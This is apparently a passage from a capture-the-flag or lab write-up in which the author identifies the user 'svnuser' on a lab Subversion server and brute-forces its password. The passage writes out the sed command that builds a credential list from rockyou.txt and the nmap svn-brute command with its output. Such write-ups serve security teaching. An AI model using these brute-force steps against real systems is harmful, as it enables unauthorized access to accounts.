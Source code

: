 We discovered a repository, but it is private. We try using the username we found in `/upload`.  

We attempt to log in with a different user, `test`, and with `svnuser`.  

![Alt text](/assets/subversion/image-1.png)  

We can see that the user `svnuser` appears to belong to this service, although we already suspected it from the name.  

## SVN Brute Force  

Nmap has a script to perform brute force attacks on SVN services.  

https://nmap.org/nsedoc/scripts/svn-brute.html  

We create a list of users and passwords in the format required by the script from `rockyou.txt` using `sed`.

```bash
$ sed 's/^/svnuser\//' /usr/share/wordlists/rockyou.txt > svnuser_rockyou.txt

$ head svnuser_rockyou.txt                             
svnuser/123456
svnuser/12345
svnuser/123456789
svnuser/password
svnuser/iloveyou
svnuser/princess
svnuser/1234567
svnuser/rockyou
svnuser/12345678
svnuser/abc123
```
We run `nmap` with our credential list and find the credentials for the user `svnuser`.  

```bash
$ nmap --script svn-brute --script-args svn-brute.repo=/subversion/,brute.credfile=./svnuser_rockyou.txt -p 3690 172.17.0.2 --min-rate 5000 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-27 18:42 CET
Nmap scan report for 172.17.0.2
Host is up (0.000014s latency).

PORT     STATE SERVICE
3690/tcp open  svn
| svn-brute: 
|   Accounts: 
|     svnuser:iloveyou! - Valid credentials
|_  Statistics: Performed 995 guesses in 46 seconds, average tps: 21.8

Nmap done: 1 IP address (1 host up) scanned in 49.63 seconds
```

## SVN Repository  
